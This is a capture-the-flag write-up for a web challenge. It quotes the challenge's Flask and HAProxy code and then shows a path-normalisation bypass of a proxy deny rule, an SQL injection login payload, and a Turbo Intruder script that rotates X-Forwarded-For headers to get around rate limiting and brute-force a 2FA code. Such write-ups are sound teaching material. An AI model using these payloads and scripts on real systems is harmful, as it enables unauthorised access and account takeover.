


Prepare for the finest magic products out there. However, please be aware that we’ve implemented a specialized protective spell within our web application to guard against any black magic aimed at our web shop.🔮🎩
login.pyfrom flask import Blueprint, render_template, request, jsonify, session, redirect
from app.config import Config
dashboard_bp = Blueprint("dashboard", __name__, template_folder="templates")
def requires_authentication(func):
def wrapper(*args, **kwargs):
if session.get("authenticated"):
return func(*args, **kwargs)
else:
return redirect("/auth/login")
return wrapper
@dashboard_bp.route("/dashboard", methods=["GET"])
@requires_authentication
def dash():
return render_template("private/dashboard.html", flag=Config.FLAG)
verify2fa.pyfrom flask import Blueprint, render_template, request, jsonify, session, redirect
import uwsgi
verify2fa_bp = Blueprint("verify2fa", __name__, template_folder="templates")
def requires_2fa(func):
def wrapper(*args, **kwargs):
if uwsgi.cache_exists("2fa-code"):
return func(*args, **kwargs)
else:
return redirect("/auth/login")
return wrapper
@verify2fa_bp.route("/verify-2fa", methods=["GET", "POST"])
@requires_2fa
def verify():
if request.method == "POST":
code = request.form.get("2fa-code")
if not code:
return render_template("private/verify2fa.html", error_message="2FA code is empty!"), 400
stored_code = uwsgi.cache_get("2fa-code").decode("utf-8")
if code == stored_code:
uwsgi.cache_del("2fa-code")
session["authenticated"] = True
return redirect("/dashboard")
else:
return render_template("private/verify2fa.html", error_message="Invalid 2FA Code!"), 400
return render_template("private/verify2fa.html")
dashboard.pyfrom flask import Blueprint, render_template, request, jsonify, session, redirect
from app.config import Config
dashboard_bp = Blueprint("dashboard", __name__, template_folder="templates")
def requires_authentication(func):
def wrapper(*args, **kwargs):
if session.get("authenticated"):
return func(*args, **kwargs)
else:
return redirect("/auth/login")
return wrapper
@dashboard_bp.route("/dashboard", methods=["GET"])
@requires_authentication
def dash():
return render_template("private/dashboard.html", flag=Config.FLAG)
haproxy.confglobal
daemon
maxconn 256
defaults
mode http
option forwardfor
timeout connect 5000ms
timeout client 50000ms
timeout server 50000ms
frontend haproxy
bind 0.0.0.0:1337
default_backend backend
# Parse the X-Forwarded-For header value if it exists. If it doesn't exist, add the client's IP address to the X-Forwarded-For header.
http-request add-header X-Forwarded-For %[src] if !{ req.hdr(X-Forwarded-For) -m found }
# Apply rate limit on the /auth/verify-2fa route.
acl is_auth_verify_2fa path_beg,url_dec /auth/verify-2fa
# Checks for valid IPv4 address in X-Forwarded-For header and denies request if malformed IPv4 is found. (Application accepts IP addresses in the range from 0.0.0.0 to 255.255.255.255.)
acl valid_ipv4 req.hdr(X-Forwarded-For) -m reg ^([01]?[0-9][0-9]?|2[0-4][0-9]|25[0-5])\.([01]?[0-9][0-9]?|2[0-4][0-9]|25[0-5])\.([01]?[0-9][0-9]?|2[0-4][0-9]|25[0-5])\.([01]?[0-9][0-9]?|2[0-4][0-9]|25[0-5])$
http-request deny deny_status 400 if is_auth_verify_2fa !valid_ipv4
# Crate a stick-table to track the number of requests from a single IP address. (1min expire)
stick-table type ip size 100k expire 60s store http_req_rate(60s)
# Deny users that make more than 20 requests in a small timeframe.
http-request track-sc0 hdr(X-Forwarded-For) if is_auth_verify_2fa
http-request deny deny_status 429 if is_auth_verify_2fa { sc_http_req_rate(0) gt 20 }
# External users should be blocked from accessing routes under maintenance.
http-request deny if { path_beg /auth/login }
backend backend
balance roundrobin
server s1 0.0.0.0:8888 maxconn 32 check
Our goal is to get the flag in dashboard.py that is loaded from env. Getting to the dashboard requires authentization through /auth/login. Between client and the app is haproxy which is configured to deny path /auth/login but we can bypass this check using modified path.
Intended
GET /auth/login HTTP/1.1
...
HTTP/1.1 403 Forbidden
Bypassed
GET /./auth/login HTTP/1.1
...
HTTP/1.1 200 OK
After that we can log in but we don’t know the creds, but the sql query is vulnerable
user = query_db(
f"SELECT username, password FROM users WHERE username = '{username}' AND password = '{password}'",
one=True,
)
SQLi
POST /./auth/login HTTP/1.1
...
username=admin&password='+or+'1'%3d'1
After auth, random 4 digit 2fa code is generated in cache. My first thought was to generate many logins and flood the cache with random 2fa codes and have a higher chance of bruteforcing the code but the cache is pre-deleted before generating new 2fa. I haven’t found a way to poison or exploit the cache so my only options was to bruteforce the 2fa code.
Haproxy badly denies bruteforcing. It checks XFF header and allows this ip to make at most 20 quick requests.
# Deny users that make more than 20 requests in a small timeframe.
http-request track-sc0 hdr(X-Forwarded-For) if is_auth_verify_2fa
http-request deny deny_status 429 if is_auth_verify_2fa { sc_http_req_rate(0) gt 20 }
My approach is to use a script that will make 19 requests from specific XFF ip and then rotate to another XFF ip which is allowed another 20 requests. And repeat.
After hitting the correct 2fa, we are allowed to visit /dashboard and get the flag.
Log in and generate 2fa code.
POST /./auth/login HTTP/1.1
Host: 94.237.58.148:39064
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: jiveforums.admin.logviewer=logfile.size=23424139; JSESSIONID=node01rp4w74qdl6pk6xnm4hrwm48o7.node0; csrf=R31CsmZmbClSbWi; connect.sid=s%3AXrTQiFRL0eXUDfOR45JNb4etUpnKyUQB.zCbhNwQ%2Bj6W4CHQcWW5bc%2FCLWPSubbYGshChbcQl3F0
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
username=admin&password='+or+'1'%3d'1
Generate wordlist of possible 2fa codes.
$ crunch 4 4 0123456789 -o 2fa.txt
Bruteforce 2fa with turbo intruder (note the %s placeholders).
POST /auth/verify-2fa HTTP/1.1
Host: 94.237.58.148:39064
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="121", "Not A(Brand";v="99"
sec-ch-ua-mobile: ?0
X-Forwarded-For: 1.1.1.%s
sec-ch-ua-platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: jiveforums.admin.logviewer=logfile.size=23424139; JSESSIONID=node01rp4w74qdl6pk6xnm4hrwm48o7.node0; csrf=R31CsmZmbClSbWi; connect.sid=s%3AXrTQiFRL0eXUDfOR45JNb4etUpnKyUQB.zCbhNwQ%2Bj6W4CHQcWW5bc%2FCLWPSubbYGshChbcQl3F0
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
2fa-code=%s
Turbo intruder code. Split the 10000 codes from file into list of lists of 19 codes. With each uniques XFF ip use the list of 19 codes. Then increase XFF ip and use another set of 19 codes. etc.
def queueRequests(target, wordlists):
engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=100,
requestsPerConnection=100,
pipeline=False
)
f=open("2fa.txt")
my_list=f.readlines()
cl = [my_list[x:x+19] for x in range(0, len(my_list),19)]
for j in range(1, 255):
for w in cl[j]:
engine.queue(target.req, [j, w.rstrip()])
def handleResponse(req, interesting):
# currently available attributes are req.status, req.wordcount, req.length and req.response
if req.status != 400:
table.add(req)
We only go through 255 unique XFF so the math is.
255*19=4845
So we only check the first 4845 codes. If we don’t hit the correct one, change request from
X-Forwarded-For: 1.1.1.%s
to
X-Forwarded-For: 1.1.2.%s
which checks another 4845 codes which should be enough.

We have correct 2fa. Now copy the cookie and access /dashboard.

HTB{1_l0v3_h4pr0x1_4cl5_4nd_4ll_1t5_f34tur35}